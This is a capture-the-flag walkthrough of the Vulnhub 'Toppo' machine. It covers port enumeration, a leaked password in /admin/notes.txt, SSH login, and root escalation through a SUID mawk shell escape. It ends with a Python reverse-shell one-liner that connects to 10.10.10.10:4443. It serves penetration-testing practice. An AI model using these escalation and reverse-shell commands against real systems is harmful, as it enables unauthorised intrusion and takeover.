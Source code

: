 Vulnhub - Toppo

# Vulnhub - Toppo
- Started the default enumeration. Found the TCP ports below:

  ```
  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  111/tcp   open  rpcbind
  52932/tcp open  unknown
  ```

- Also ran nmap UDP scan, which returned the ports

  ```
  PORT    STATE         SERVICE VERSION
  68/udp  open|filtered dhcpc
  111/udp open          rpcbind 2-4 (RPC #100000)
  MAC Address: 00:0C:29:AD:EF:56 (VMware)
  ```

  - Using nikto, some folders where enumerated, but the one that called attention was /admin

  - Inside /admin there was a file called notes.txt containing the text below

    ```
    - - Note to myself :
    
    I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .
    ```

- Assuming that ted is the username, once wasn't able to find it through any other enumeration, tried to SSH to box, once that 22/tcp is open.

- As ssh connection worked, started enumerating using LinEnum.sh, where these were the interesting findings

  - User ted is allowed to run /usr/bin/awk as root

    ```
    ted ALL=(ALL) NOPASSWD: /usr/bin/awk
    ```

  -  Root is allowed to ssh 
  - Noticed that system listen to other ports internally, not allowed externally
    - TCP 36808
    - UDP 34995
    - UDP 59288
    - UDP 68
    - UDP 611
    - UDP 57751
    - UDP 12712
  - SUID file /usr/bin/mawk found
  - SUID /usr/bin/python2.7 world writable
  - Besides user has permissions to sudo as root awk, sudo file doesn't exist, so this options is discharged

  - Checking the SUID file mawk, checked on gtfobins (https://gtfobins.github.io/gtfobins/mawk/) that there was a way to privesc directly
    - Executed /usr/bin/mawk 'BEGIN {system("/bin/sh")}' which worked.
  - Getting the content of /root/flag.txt file


```bash
# cat flag.txt
	_________                                  
	|  _   _  |                                 
	|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
	    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
	   _| |_ | \__. | | \__/ | | \__/ || \__. | 
	  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
	                 [__|     [__|            

Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```

- Exploring other privesc possibilities

- Noticed that the same would work for awk, even without sudo

- As /usr/bin/python2.7 has SUID set as root, it is also possible to get a reverse shell elevated this was.

  ```
  /usr/bin/python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```

  